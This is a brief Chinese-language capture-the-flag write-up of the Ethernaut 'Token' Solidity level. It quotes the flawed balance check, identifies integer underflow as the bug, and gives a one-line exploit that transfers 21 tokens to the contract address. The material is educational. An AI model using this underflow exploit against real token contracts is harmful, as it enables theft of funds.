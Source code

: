 # Token 


## 题目

```
这一关的目标是攻破下面这个基础 token 合约

你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

  这可能有帮助:

什么是 odometer?
```

## 漏洞


```solidity
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;
balances[_to] += _value;
```

整数溢出问题。

使用下溢出既可.

## 解决
本来想直接转到0，但是好像发现不行，直接使用合约的地址吧。
`await contract.transfer(contract.address,21)`

